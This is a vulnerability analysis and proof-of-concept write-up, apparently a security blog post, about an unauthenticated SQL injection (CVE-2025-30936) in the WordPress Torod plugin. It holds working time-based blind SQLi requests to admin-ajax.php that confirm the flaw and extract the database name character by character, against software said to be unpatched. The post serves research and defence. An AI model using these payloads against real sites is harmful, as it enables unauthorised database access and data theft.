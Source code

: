 ```yaml
---
title: CVE-2025-30936 Analysis & POC
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-28 20:51:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

The vulnerability occurs in the **Torod** plugin for WordPress. This could allow attackers to directly interact with your database, including but not limited to stealing information.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Torod**: v1.9

---

## Analysis

The core cause is that the application directly inserts data from a **POST** request into an SQL query without proper input validation or control mechanisms.

### Vulnerable Sink

This CVE has no patch available, so we cannot use a **diff tool** to compare the vulnerable and fixed versions.

> In WordPress, for SQLi to occur, the application must interact with the database through the global variable `$wpdb`. We can search for this keyword in the plugin directory to locate the sink.

![Search sink](search_sink.png "Locate the sink in code")

👉 The data from `$_POST['country_id']` is directly inserted into the SQL query without proper validation. Using `sanitize_text_field()` only escapes the string, not fully sanitizing it. Therefore, the SQL Injection vulnerability can occur.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it works?

The vulnerability lies in the `get_regions_and_cities` function of the `ajaxyk` class within the **inc/ajaxyk.php** file. To determine where it’s called, we search for the keyword `get_regions_and_cities` within the plugin directory.

![Search 1](search_1.png "Find the get_regions_and_cities function")

👉 `get_regions_and_cities` is registered as a callback for two action hooks via the `add_action` function in the `ajaxyk` constructor.

* `wp_ajax_get_regions_and_cities`

  * Written in the format `wp_ajax_{$action}`
  * Requires user authentication

* `wp_ajax_nopriv_get_regions_and_cities`

  * Written in the format `wp_ajax_nopriv_{$action}`
  * Does not require authentication

Since this is an **unauthenticated** vulnerability, we only focus on the `wp_ajax_nopriv_get_regions_and_cities` hook.

Thus, when a **POST** request is sent to `/wp-admin/admin-ajax.php` with parameters:

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* The `get_regions_and_cities` callback is triggered.
* `country_id` is taken directly from the request and injected into the SQL query.
* The query executes with the malicious payload.

---

## Exploit

### Detecting SQLi

Send a **POST request** containing the SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

The resulting query becomes:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](time_resp.png "Response time result")

👉 Based on the response time => the payload works.

**Techniques usable when the table is empty:**

* **UNION**: Since it does not depend on existing data in the table, but requires knowing the number of columns.
* **Subquery**:

  * **Subquery in WHERE clause**: MySQL may optimize and skip the subquery if the result can be determined early. If the table has no data, MySQL might not execute `SLEEP()`.
  * **Subquery in FROM clause**: The subquery is treated as a temporary table. MySQL must execute it first to build the temp table before executing the main query.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL execution order")

### Get the First Letter of Database Name

The prerequisite to **dump all data** is to retrieve at least one character of the database name. Once that is achieved, the rest can be enumerated.

Send a request with the **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first character of the **database name**, and `IF()` triggers `SLEEP(5)` if that character is `0x77` ('w').

We use the hex encoding `0x77` for `w` because `country_id` is taken from a **POST** request, which is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) in WordPress and by `sanitize_text_field`.

👉 Based on response time => the first character is confirmed to be `w`.

---

## Conclusion

The **CVE-2025-30936** vulnerability in the **WordPress Torod** plugin (version ≤ 1.9) stems from directly inserting user input into an SQL query without proper validation, leading to a classic SQL Injection flaw.

No official patch has been released for this vulnerability yet.

**Key takeaways**:

* Always validate and sanitize user input properly.
* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Keep plugins up-to-date and perform regular security assessments to avoid being targeted.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)

---
